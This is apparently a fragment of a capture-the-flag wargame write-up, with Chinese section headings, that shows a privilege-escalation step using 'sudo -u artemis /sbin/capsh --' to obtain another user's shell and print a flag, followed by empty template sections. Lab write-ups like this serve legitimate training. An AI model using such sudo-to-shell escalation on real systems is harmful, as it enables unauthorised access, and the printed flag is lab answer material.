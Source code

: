 ```shell title="Exploit it"
arete@hades:~$ sudo -u artemis /sbin/capsh --
artemis@hades:/pwned/arete$ cd
artemis@hades:~$ cat flagz.txt 
^SegGdzPgnNdGAmKjnsa^
```

## User - artemis

### flag - 09

```plaintext
^SegGdzPgnNdGAmKjnsa^
```

### 任务目标

```plaintext title="mission.txt"
We need /bin/bash so that the user asia gives us her password. 
```

### 行动

```plaintext title="ls -lah"

```

```shell title="Exploit it"

```

## User -

### flag - 10

```plaintext

```

### 任务目标

```plaintext title="mission.txt"

```

### 行动

```plaintext title="ls -lah"

```

```shell title="Exploit it"

```

## User -
